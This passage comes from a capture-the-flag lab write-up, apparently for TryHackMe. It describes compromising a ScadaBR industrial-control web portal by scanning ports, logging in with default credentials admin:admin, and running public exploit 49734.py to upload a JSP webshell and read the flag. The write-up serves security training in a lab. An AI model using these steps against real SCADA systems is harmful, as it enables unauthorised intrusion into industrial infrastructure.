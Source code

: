 ✅ Discovered:
22 (SSH), 80 (HTTP), 5901 (VNC), 8080 (ScadaBR).

---

#### 2. **Navigated to port 8080:**

*Found ScadaBR login portal.*

---

#### 3. **Tested default credentials:**

```
admin:admin
```

✅ **Successful login.**

---

#### 4. **Searched for exploit:**

```
searchsploit scadabr
```

✅ Found exploit **49734.py** for arbitrary file upload (Windows).

---

#### 5. **Executed exploit:**

```bash
python2 49734.py 10.10.132.124 8080 admin admin
```

✅ Uploaded .jsp webshell successfully.

---

#### 6. **Retrieved flag via webshell.**

```
THM{rce_archieved_through_script_injection}
```

---

### 💡 **Lessons Learned**

* Always test **default SCADA credentials**.
* Searchsploit remains essential for rapid exploit identification.

---

<a id="task-13--orcam"></a>

## 📝 **Task 13 – Orcam**
